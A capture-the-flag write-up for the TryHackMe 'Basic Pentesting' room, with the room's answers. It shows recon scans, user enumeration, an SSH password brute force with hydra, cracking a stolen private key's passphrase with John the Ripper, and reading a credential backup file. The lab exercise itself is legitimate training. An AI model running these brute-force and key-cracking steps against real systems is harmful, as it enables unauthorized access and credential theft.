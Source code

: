 
---
---

<div align="center">

# TryHackMe Basic Pentesting


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/99c72676aab814b94e3bc350ba627b71.png" alt="THM RootMe" width="220px" height="220px" style="margin-right: 85px;">
<img src="https://assets.tryhackme.com/img/THMlogo.png" alt="THM Logo" width="250px" height="150px" style="margin-bottom: 50px;">

<br>

🔗 [Click here to access the TryHackMe room](https://tryhackme.com/r/room/basicpentestingjt)

<br>

</div>


## IP Addresses:

* ### Target/Victim Machine
	```
	10.10.109.136 (Ubuntu 16.04)
	```

* ### Attacker Machine
	```
	10.17.35.203 (Ubuntu 23.10)
	```


<br>

## Reconnaissance:

* ### Nmap Scan

	> nmap 10.10.109.136 -o nmap.log

	```
	PORT     STATE SERVICE     VERSION
	22/tcp   open  ssh         OpenSSH 7.2p2
	80/tcp   open  http        Apache httpd 2.4.18
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
	8080/tcp open  http        Apache Tomcat 9.0.7
	```

* ### Gobuster Scan

	> gobuster dir -u 10.10.109.136 -w /usr/share/wordlists/dirb/common.txt -o gobuster.log

	```
	/.htaccess            (Status: 403) [Size: 297]
	/.hta                 (Status: 403) [Size: 292]
	/.htpasswd            (Status: 403) [Size: 297]
	/development          (Status: 301) [Size: 320]
	/index.html           (Status: 200) [Size: 158]
	/server-status        (Status: 403) [Size: 301]
	```


<br>

## THM Questions:

* _Q1_: What is the name of the hidden directory on the web server(enter name without /)? <br> _A_: `development`


<br>

## Enumeration and Bruteforcing:

* ### Enum4linux scan

	> enum4linux -a 10.10.109.136 | tee enum4linux.log

	```
	S-1-22-1-1000 Unix User\kay (Local User)
	S-1-22-1-1001 Unix User\jan (Local User)
	```

* ### Using Hydra to enumerate jan's password

	> hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.109.136 | tee hydra.log

	```
	[22][ssh] host: 10.10.109.136   login: jan   password: armando
	```


<br>

## THM Questions:

* _Q2_: What is the username? <br> _A_: `jan`
* _Q3_: What is the password?  <br> _A_: `armando`


<br>

## Attempting login (user: jan)

> ssh jan@10.10.99.188

Login successful


<br>

## THM Questions:

* _Q4_: What service do you use to access the server(answer in abbreviation in all caps)? <br> _A_: `SSH`
* _Q5_: What is the name of the other user you found(all lower case)? <br> _A_: `kay`


<br>

## Finding PrivEsc vectors:

* ### linPEAS.sh scan

	Found user `kay's` `id_rsa` readable by user `jan` (logged in via ssh) in `/home/kay/.ssh/`


<br>

## Attempting login (user: kay)

> ssh -i kay_id_rsa kay@10.10.99.188

Login unsuccessful. id_rsa encrypted.


<br>

## Bruteforcing SSH key:

* ### Attempting id_rsa decryption using JohnTheRipper

	> python3 /opt/john/run/ssh2john.py kay_id_rsa > ssh2john.txt
	
	> /opt/john/run/john ssh2john.txt --wordlist=/opt/wordlists/rockyou.txt

	```
	beeswax          (kay_id_rsa)     
	```


<br>

## Attempting login (user: kay) (passphrase: beeswax)

> ssh -i kay_id_rsa kay@10.10.99.188

Login successful.


<br>

# Final Password

> cat /home/kay/pass.bak

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```


<br>

# THM Questions:

* _Q6_: What is the final password you obtain? <br> _A_: heresareallystrongpasswordthatfollowsthepasswordpolicy$$


<br>

---
---

<div align="center">

💻 Created by [Jayaditya Dev](https://tryhackme.com/p/jayadityadev)

🚀 Find me on [GitHub](https://github.com/jayadityadev)

</div>

---
---
